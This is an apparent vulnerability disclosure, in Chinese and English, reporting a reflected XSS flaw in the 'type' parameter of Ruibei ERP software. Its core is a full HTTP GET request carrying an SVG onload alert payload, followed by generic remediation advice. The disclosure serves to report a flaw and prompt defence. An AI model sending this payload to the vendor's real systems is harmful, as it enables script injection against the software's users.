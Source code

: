 # XSS vulnerability exists in the ERP parameter type of Ruibei software

### 企业官网(Enterprise official website)：

https://www.rebee.cn/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?action=gygg7&address=lxy59&callback=flmr4&enddate=tb1p6&height=mfxh2&ipad=nmpg7&isAndroid=v0170&json=um6r5&key=ot3b7&languageOption=jdsw6&m=wzvg9&mobilePhone=wsgf6&mod=ws828&page=i65b0&q=dkfv0&query=lifq6&s=jin37&src=kyvw0&type=type="><svg onload=alert('xss')>//&verificationCode=b8ye4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```

![](19.png)



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

